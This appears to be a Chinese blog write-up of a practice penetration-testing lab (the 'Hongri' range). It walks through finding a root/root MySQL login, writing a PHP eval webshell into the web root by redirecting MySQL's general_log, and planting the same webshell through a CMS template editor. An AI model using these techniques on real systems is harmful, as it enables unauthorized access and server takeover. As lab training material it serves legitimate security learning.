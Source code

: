```yaml
---
title: 红日靶场（一）
---
```

# 红日靶场（一）

# 部署

新建一个网卡，网段为192.168.52.0的，然后把三台机子都连到这个网段

![image-20230923162445382](D:\blog-img\image-20230923162445382.png)

环境我是部署在的台式机上，攻击机是笔记本，所以我还把win7又接了一个网卡

![image-20230923162745791](D:\blog-img\image-20230923162745791.png)

## 靶机ip信息

> win7：192.168.10.40/192.168.52.143
>
> win server 2003：192.168.52.141
>
> win server 2008：192.168.52.1

## 遇到的问题

在win7里面启动phpstudy的时候会报错

> Exception EReadError in module phpStudy.exe at 0002D806
> Error reading CoolTraylcon1.Visible: Cannot create shell
> notification icon.

然后我把phpstudy的版本换成了2018的就好了

## 启动环境

win7启动phpstudy点击启动即可

![image-20230923163149218](D:\blog-img\image-20230923163149218.png)

win server 2008启动redis

```shell
redis-server.exe redis.windows.conf
```

![image-20230923163330770](D:\blog-img\image-20230923163330770.png)

# 外网

## 信息收集

## 扫端口和目录

端口扫描

```bash
nmap -sC -sV 192.168.10.40
```

![image-20230923163907425](D:\blog-img\image-20230923163907425.png)

浏览器访问网站，是一个php study探针

![image-20231012230930642](D:\blog-img\image-20231012230930642.png)

有一个mysql连接测试，输入root/root测试，连接成功

![image-20231012231055411](D:\blog-img\image-20231012231055411.png)

然后又用dirsearch扫目录，看看有没有新发现，发现有phpmyadmin，那就可以用刚刚试出来的弱口令去登录后台

![image-20231012231358593](D:\blog-img\image-20231012231358593.png)

## 利用mysql写日志getshell

发现有一个phpMyAdmin，用root/root弱口令成功登录

![image-20230923170238861](D:\blog-img\image-20230923170238861.png)

先执行 `select @@basedir;`查看网站的物理路径

![image-20231013104700595](D:\blog-img\image-20231013104700595.png)直接写文件到网站根目录下

语法：`select '<?php  @eval($_POST[shell]);?>' into outfile 'C:/phpStudy/www/shell.php';`

但是报错了

![image-20231013104958653](D:\blog-img\image-20231013104958653.png)

那就换个思路，利用mysql日志写文件

首先先查看日志状态，日志的状态和保存路径

```sql
show variables like '%general%';
```

![image-20231013105210932](D:\blog-img\image-20231013105210932.png)

首先要开启 `general_log`，然后再修改日志保存的文件，即可通过保存日志的方式去写文件

```sql
SET GLOBAL general_log='on';
SET GLOBAL general_log_file='C:/phpStudy/www/shell.php'
```

![image-20231013105806362](D:\blog-img\image-20231013105806362.png)

修改成功，然后就可以执行SQL语句，将一句话木马保存到 `shell.php`文件里了

````sql
select '<?php  @eval($_POST[shell]);?>'
````

蚁剑连接成功

![image-20231013110045049](D:\blog-img\image-20231013110045049.png)

进去后发现还有一个cms网站和一个 `beifen.rar`文件

![image-20231013110211794](D:\blog-img\image-20231013110211794.png)

## CMS后台上传shell

下载 `beifen.rar`文件发现是cms的网站源代码，先放着，后续再看，访问yxcms网站，在公告处告诉了后台地址和默认管理员账号密码

![image-20231013113421831](D:\blog-img\image-20231013113421831.png)

登陆后台，然后进入前台模板，然后点击管理模板文件，然后新建文件

![image-20231013113518545](D:\blog-img\image-20231013113518545.png)

写入一句话木马 `<?php  @eval($_POST[hack]);?>`

![image-20231013113620253](D:\blog-img\image-20231013113620253.png)

然后根据备份文件，找到模板存放地址，在 `/yxcms/protected/apps/default/view/default/`

![image-20231013114218367](D:\blog-img\image-20231013114218367.png)

蚁剑连接

![image-20231013114353739](D:\blog-img\image-20231013114353739.png)

# 内网

是管理员权限了，同时耶发现了存在有域

![image-20231013114522425](D:\blog-img\image-20231013114522425.png)
